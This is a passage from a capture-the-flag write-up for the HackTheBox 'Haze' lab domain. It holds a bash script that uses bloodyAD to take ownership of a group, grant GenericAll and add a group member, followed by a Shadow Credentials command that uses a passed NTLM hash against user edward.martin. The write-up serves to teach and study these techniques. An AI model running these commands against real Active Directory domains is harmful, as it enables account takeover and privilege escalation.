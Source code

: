 ## **AddKeyCredentialLink**

`auto_addkey.sh`

```bash
#!/bin/bash

# Use TGT
export KRB5CCNAME=Haze-IT-Backup\$.ccache

# Set owner
./fk.sh $IP \
bloodyAD --host "dc01.haze.htb" -d "haze.htb" -u 'Haze-IT-Backup$' -k \
set owner "SUPPORT_SERVICES" 'Haze-IT-Backup$'

# Grant full control
./fk.sh $IP \
bloodyAD --host "dc01.haze.htb" -d "haze.htb" -u 'Haze-IT-Backup$' -k \
add genericAll "CN=SUPPORT_SERVICES,CN=Users,DC=haze,DC=htb" 'Haze-IT-Backup$'

# Add member
./fk.sh $IP \
bloodyAD --host "dc01.haze.htb" -d "haze.htb" -u 'Haze-IT-Backup$' -k \
add groupMember "SUPPORT_SERVICES" 'Haze-IT-Backup$'
```

## ShadowCredentials Attack

The **Shadow Credentials attack** exploits the **msDS-KeyCredentialLink** attribute in Active Directory to add a rogue **public key** to a target account (usually a privileged one). This allows the attacker to generate a **private key** and authenticate as the target user via **PKINIT (Kerberos authentication)**, effectively bypassing password-based authentication. 

Uses BloodyAD to add shadow credentials (i.e., a forged certificate mapping) to the user 'edward.martin’

```bash
./fk.sh $IP \
bloodyAD --host "dc01.haze.htb" -d "haze.htb" \
-u 'Haze-IT-Backup$' -p ':a70df6599d5eab1502b38f9c1c3fd828' \
add shadowCredentials "edward.martin"
```

![Screenshot 2025-04-01 at 1.19.49 AM.png](/assets/Images/HTB_Haze/Screenshot_2025-04-01_at_1.19.49_AM.png)
